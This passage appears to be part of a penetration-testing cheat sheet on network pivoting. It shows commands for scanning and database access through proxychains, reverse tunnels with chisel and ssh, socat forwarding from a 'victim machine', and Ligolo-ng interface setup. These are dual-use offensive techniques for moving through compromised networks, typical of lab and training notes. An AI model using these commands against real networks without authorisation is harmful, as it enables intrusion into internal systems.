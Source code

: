 ### Using Nmap Through the Tunnel:
```bash 
proxychains nmap -sT -Pn --top-ports 5000 -open -T5 -v -n <IP> 2>/dev/null
```
### Connecting into database through the tunnel:
```bash
proxychains4 mysql -u wp_user -p -h 172.17.0.1 wordpress --ssl=0
```
### Accessing HTTP in Browser:
Configure FoxyProxy with a new SOCKS5 proxy on port 1080.

### Using Gobuster Through SOCKS:
```bash 
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/big.txt --proxy socks5://127.0.0.1:1080
```

### Exposing Internal Services:
```bash 
chisel client 10.10.14.6:9000 R:9631:localhost:631
ssh -g -L 0.0.0.0:8081:localhost:8080 user@localhost
```

## CHISEL FOR PIVOTING (Dynamic SOCKS Mode)
---
If the victim machine can access additional hosts:

1. Start Chisel on the victim machine:
   ```bash 
   chisel client <PREVIOUS_MACHINE_IP>:2322 R:8888:socks
   ```

2. On the previous machine, activate Socat to forward traffic:
   ```bash 
   ./socat TCP-LISTEN:2322,fork TCP:<CHISEL_CLIENT_IP>:8000
   ```

3. Update `/etc/proxychains4.conf`:
   ```bash 
   dynamic_chain
   socks5 127.0.0.1 8888
   ```

## LIGOLO FOR PIVOTING
---
Download Ligolo from the official repository <a href="https://github.com/nicocha30/ligolo-ng/releases" target="_blank">here</a>

### Setup for Attacker and Third Machine

1. Create a new network interface:
   ```bash 
   sudo ip tuntap add user $USER mode tun ligolo
   ```
2. Bring up the interface:
   ```bash 
   sudo ip link set ligolo up
   ```
3. Add a route:
   ```bash 
   sudo ip route add 10.0.2.0/24 dev ligolo
   ```
4. Start the Ligolo proxy:
   ```bash 
   ./proxy -selfcert
   ```
